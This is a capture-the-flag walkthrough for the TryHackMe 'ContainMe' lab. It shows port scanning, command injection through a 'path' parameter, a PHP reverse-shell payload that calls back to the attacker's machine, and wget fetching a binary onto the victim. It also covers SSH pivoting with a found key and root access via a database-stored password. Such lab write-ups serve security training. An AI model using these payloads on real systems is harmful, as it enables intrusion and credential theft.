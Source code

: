 # ContainMe

**Room Link:** [https://tryhackme.com/room/containme1](https://tryhackme.com/room/containme1)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (6).png" alt=""><figcaption></figcaption></figure>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Burp Request**

```
GET /index.php?path=;id HTTP/1.1
Host: 10.10.108.33
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**Kali**

```
nc -lvnp 1337
```

**Burp Request**

```
GET /index.php?path=;php+-r+'$sock%3dfsockopen("$KALI",1337)%3bexec("sh+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 10.10.128.4
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (455).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
find / -perm -u=s -type f 2> /dev/null 
/usr/share/man/zh_TW/crypt mike
```

<figure><img src="../../.gitbook/assets/image (456).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (457).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/andrew-d/static-binaries.git
cd static-binaries/binaries/linux/x86_64
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/nmap
chmod +x nmap
./nmap 172.16.20.0/24 -Pn
```

<figure><img src="../../.gitbook/assets/image (458).png" alt=""><figcaption></figcaption></figure>

Mike has a ssh key so I tried logging into the other server with that and it worked.

**Victim**

```
ssh mike@172.16.20.6 -i /home/mike/.ssh/id_rsa
```

<figure><img src="../../.gitbook/assets/image (459).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**&#x20;

**Victim**

```
ss -ltp 
```

<figure><img src="../../.gitbook/assets/image (461).png" alt=""><figcaption></figcaption></figure>

Password was password, just guessed it.

**Victim(mysql)**

```
mysql -ppassword 
show databases; 
use accounts;  
select * from users ;
```



<figure><img src="../../.gitbook/assets/image (460).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>su root
</strong>Password: bjsig4868fgjjeog
</code></pre>

<figure><img src="../../.gitbook/assets/image (462).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>cd /root
</strong><strong>unzip mike.zip
</strong><strong>Password: WhatAreYouDoingHere
</strong></code></pre>
